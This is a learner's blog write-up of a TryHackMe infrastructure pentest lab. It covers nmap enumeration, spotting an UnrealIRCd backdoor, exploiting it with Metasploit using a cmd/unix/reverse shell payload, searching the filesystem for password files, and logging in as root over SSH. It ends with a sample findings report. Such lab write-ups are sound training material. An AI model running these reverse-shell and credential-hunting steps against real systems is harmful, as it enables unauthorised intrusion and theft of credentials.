










# :material-pound: Guided Pentest: Infrastructure

<div class="sj-meta" markdown>

:material-shield-star-outline: **Path:** Jr Penetration Tester > Penetration Testing Foundations > Guided Pentest: Infrastructure

:material-calendar-month-outline: **Date:** 25/06/2026 + 15/07/2026

:material-signal-cellular-1: **Difficulty:** Easy (THM) / Easy (me)

</div>

---

!!! quicklinks "Quick Links"

    - [:simple-tryhackme: Guided Pentest: Infrastructure](https://tryhackme.com/room/guidedpentestinfrastructure)

## :material-clipboard-text-outline: What this room covers { data-toc-label="What this room covers" }

The room is a walkthrough of an infrastructure pentest with the following brief:

> _You've just landed your first junior role as a penetration tester. For your first engagement, you will shadow your team lead._

> _It's Monday morning, and your project manager sends you an email and informs you that your biggest client, TryHatMe, recently deployed a new network device in their infrastructure. Start your AttackBox, make sure the target is online, and begin your pentest._


:O

## :material-laptop: What I did / learned { data-toc-label="What I did / learned" }

### Enumeration

The section highlighted the importance of enumeration as the foundation of any penetration test. I found it a bit endearing, as I couldn't imagine doing anything without researching first (personality trait... maybe sometimes personality flaw?).

Enumeration helps inform our decisions for a given pentest. We need to find out anything we can about the target system (what ports and services are running, their versions and so on).

```bash
nmap -sV -sC -oN scan.txt 10.129.191.205
```

Reminder to self (since THM decided to remind us, I also realised I started adding commands etc to my write-ups very recently so I probably have missed out on that quite a bit):

- `-sV` - probes open ports for services and versions
- `-sC` - runs Nmap's default set of scripts (pulls extra details like banners, supported authentication, methods, and more)
- `-oN scan.txt` - saves the output file (good habit to get into!)




As per the output, we can see two ports open:
- SSH (22) version OpenSSH 9.6p1
- IRC (6667) version UnrealIRCd

I don't think I have encountered IRC before, so let's see!

---

### Vulnerability Analysis

This is too good not to copy/paste it here:

> _You've got your scan results. Now what?_

> _Don't look at the output like a wall of text. Start asking questions. Is that service version outdated? Is there a known exploit for it? Is something misconfigured? Vulnerability analysis is really just the process of taking what enumeration gave you and asking, "What can go wrong here?"._

In the era of (sometimes!) over-politeness, I do sometimes miss a more blunt approach (I think that's why I really enjoyed Professor David J. Malan's courses, he is so good and is never afraid to be blunt (not rude!)).

Okay, the THM people encourage us to google. We will start with SSH ("OpenSSH 9.6p1 exploit"). Check this out:




I thought this was definitely worthy of a follow-up, but they now say to give the `searchsploit` _(command-line search tool of Exploit-DB's offline DB of public exploits and vulnerability disclosures)_ a go which is a lot more fun & my shift starts in 9 minutes, and I really want to try it out! :D



Looking at the output I decided to quickly pipe it to `grep` to filter it by our version, but found nothing useful. As THM noted in the room, there is nothing notable for the SSH version we have, and this was just a learning exercise... or was it?



A Metasploit backdoor! I remember being absolutely obsessed about Metasploit module. I was doing it after a nice gym session and a 5k walk for steps, sitting in a pub across the road from a car service while waiting for my car to be ready for pick-up. Such a lovely afternoon, was going between "this is so lovely and peaceful" and "omg let's metasploit everything >:)".

---

### Initial Access

_Side note: I've been extremely busy with... Python studies, DevOps tasks at work (and after EOD), setting up a Wazuh SIEM at home with 3 of my devices etc etc... so picking this up 3 weeks after I started may be a bit bumpy, but I reread everything and it all makes sense. I also nearly stayed in bed as the prospects of gym or anything else didn't sound appealing this morning (I'm lucky enough to be able to train during lunch at home), but the second I remembered about this and decided I deserved a "treat" I was up in seconds!_

So! Since we previously established that UnrealIRCd is vulnerable to RCE, we are reaching for Metasploit, it always gets me fired up :D...

```console
msfconsole
```




We found our metasploit module, now we need to enter it (`use 0`) and configure it with `show options`.



The only required option for the module specifically is `RHOSTS`:

```console
set RHOSTS 10.128.164.80
```

In regard to payloads, we can find them with `show payloads`. At the time of writing there are 415 payloads, which is slightly overwhelming (without future investigation). Thankfully THM helps us with a note that in cases when we don't know much about our target or software installed on it, the safest payload to choose is a Unix reverse generic payload.

```console
set payload cmd/unix/reverse
```

To see the updated list of requirements we need to execute `show options` again, there we would see we need to set a `LHOST` option and update `LPORT`:



```console
set LHOST 10.128.105.125
set LPORT 443
```

We are ready to exploit with `exploit`. And we are in!



Useful note from THM:

> _When you first catch a reverse shell, it's typically a "dumb" shell without full terminal features — it lacks job control, tab completion, and importantly, commands like su or sudo won't work because they require an interactive TTY to securely read passwords. Upgrading to a full TTY transforms your basic reverse shell into a proper interactive terminal session, which is necessary because commands like su and sudo require a real terminal (TTY) to safely prompt for and read password input. In this room, this is not required, as we will see later._

Fair enough, upgrading would have been fun though :V

---

### Post Exploitation

Now that we are in, we need to find a way how to escalate our privileges. THM kindly noted to take a look at [Linux Privilege Escalation: Basics](https://tryhackme.com/room/linprivbasics) for further learning (bookmarked!), and now we proceed!

Their suggestion is to try and find a file that would help us achieve our goals. Specifically a credentials file:

```console
find / -name password* 2>/dev/null
```



A lot of files, but obviously the tastier one is `/etc/password.txt`, which gave me the root password using `cat`. Side thought - I know this is a learning room, but I wonder how many people still keep their credentials like that (especially at organisations), hmm...

OK so now we have the root password, but as per the THM earlier note on the "dumb" shell, we can't use `su` to enter password, instead, we will need to open a new terminal and `ssh` into it using root credentials:

```console
ssh root@10.128.164.80
```

Once there, I could read the flag at `/root/flag.txt`.

---

### Reporting

This room covered the importance of the quality of the final report, saying that regardless of the pentesting skills of the professional and the achievements and results of the pentest itself, if the report is not great, the pentest would be deemed... not great (as this is the only thing the stakeholders will see of our work).

The main things to mention, as per their suggestion:

- A cover page with a title, your name, and email address, and version control.
- A table of contents (Optional).
- An executive summary, aimed at the manager who requested the engagement, explaining what was achieved in non-technical terms.
- A technical summary aimed at the engineering manager, so they understand the impact and can prioritize accordingly (Optional).
- A table of all vulnerabilities found, ordered by severity, aimed at managers and engineers, again to prioritize accordingly.
- Detailed exploitation section, where each vulnerability and its impact are explained, exploitation steps and proof are shown, and recommendations for mitigations are given. This is aimed at engineers who will remediate your findings.

So I had hoped we'd give it a go at reporting, but turned out that they provided an example (based on what we did too):

> ==================

**Title:** Root Password Stored in Plaintext

**Severity:** Critical

**Description:** The root user's password was found stored in plaintext within the file /etc/password.txt. This file was readable by low-privileged users, allowing any user with shell access to retrieve the root credentials and fully compromise the system.

**Exploitation Steps:**

1. Obtain a low-privileged shell on the target system.
2. Read the contents of /etc/password.txt using cat /etc/password.txt.
3. Use the discovered root password to escalate privileges via ssh root@IP.

**Recommendation:** Remove the plaintext password file immediately and rotate the root password. Credentials should never be stored in plaintext on the filesystem. Implement a secrets management solution or use properly configured system authentication mechanisms (such as /etc/shadow with strong hashing). Additionally, enforce the principle of least privilege to restrict file access permissions.

> ==================

Pretty good and resembles my bug reports, so I guess once I get a chance to work on mine, it would be quite fun too!

That's the room done and... streak at day 151 ;)

---

### Bringing It Together

So what did we do?

- Enumerated target IP - found two running services, one with a known vulnerability
- Exploited the known vulnerability and gained access to a "dumb" shell
- Once inside the target machine, we found a file with root password
- We then SSHed into it (one of the running services on that machine)

## :material-magnify: Power through struggle { data-toc-label="Power through struggle" }

- None, I'm very excited to try a non-guided pentest. I think I will try to find a room/exercise for this this or next weekend.

## :material-lightbulb-on-outline: Key takeaways { data-toc-label="Key takeaways" }

- Infra pentest can start from nothing, but having enumerated IP we can figure out a suitable vulnerability to exploit
- Once we find a foothold on the target, any subsequent vulnerabilities stack and can give us the ultimate access to do whatever we like with the target machine
- Google google google!
- And, of course, the importance of reporting (which I already always loved, #weirdo)